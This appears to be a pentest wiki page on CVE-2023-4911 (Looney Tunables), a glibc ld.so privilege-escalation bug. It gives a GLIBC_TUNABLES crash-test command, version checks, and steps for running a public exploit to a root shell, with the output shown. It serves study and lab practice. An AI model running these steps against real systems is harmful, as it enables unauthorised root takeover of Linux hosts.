 ```yaml
---
description: CVE-2023-4911
---
```


# Looney Tunables

## Theory

CVE-2023-4911 (Looney Tunables) is a buffer overflow vulnerability in GNU C Library’s dynamic loader’s,  known as `ld.so`, when processing the GLIBC\_TUNABLES environment variable. This issue could allow a local attacker to use maliciously crafted GLIBC\_TUNABLES environment variables when launching binaries with SUID permission to execute code with elevated privileges.

This vulnerability was introduced in **glibc version 2.34** through commit 2ed18c. The vulnerability affects recent versions of major Linux distributions such as **RHEL, Ubuntu, Fedora , Debian, Amazon Linux, Gentoo** and **any other distribution that uses glibc**.

The vulnerability impacts major Linux distributions, including:&#x20;

* Fedora 37 and 38
* Ubuntu 22.04 and 23.04
* Debian 12 and 13

Whenever you execute an ELF file that depends on shared libraries  (`.so` files), the operating system will need to load such libraries and link them to your executable. In Linux systems, this is normally managed by `ld.so`, an executable prepackaged as part of the `glibc` library.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To test directly whether the target is vulnerable, we can use the following command (vulnerable if there is a segmentation error):

```bash
$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

If glibc version is **greater or equal than 2.34**, target may be vulnerable

```bash
$ ldd --version
ldd (Ubuntu GLIBC 2.27-3ubuntu1.6) 2.27
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Or we can retreive the version of glibc using the following C++ code

{% code title="glibc.cpp" %}
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <gnu/libc-version.h>

int main(int argc, char *argv[])
{
    // Print glibc version
    printf("GNU libc version: %s\n", gnu_get_libc_version());
    exit(EXIT_SUCCESS);
}
```
{% endcode %}

Compile the above code using the following command:

```bash
g++ -std=c++11 glibc.c -o glibc
```

And execute it

```bash
./glibc
GNU libc version: 2.31
```
{% endtab %}

{% tab title="Exploit" %}
Using [this exploit](https://github.com/leesh3288/CVE-2023-4911) from leesh3288, we can abuse CVE-2023-4911

First we need to execute the Python script to generate the malicious libc.so.6

```bash
python3 gen_libc.py
```

Compile the exploit

```shell-session
gcc -o exp exp.c
```

Finally, you can launch the exploit and be patient since the exploitation may take some time (5 to 20 mins).

```bash
$ ./exp
try 100
try 200
[snip]
try 3700
try 3800
# whoami
root
```

{% hint style="info" %}
Code has been tested on Ubuntu 22.04.3 with glibc version `2.35-0ubuntu3.3`.&#x20;
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/looneytunes" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so" %}
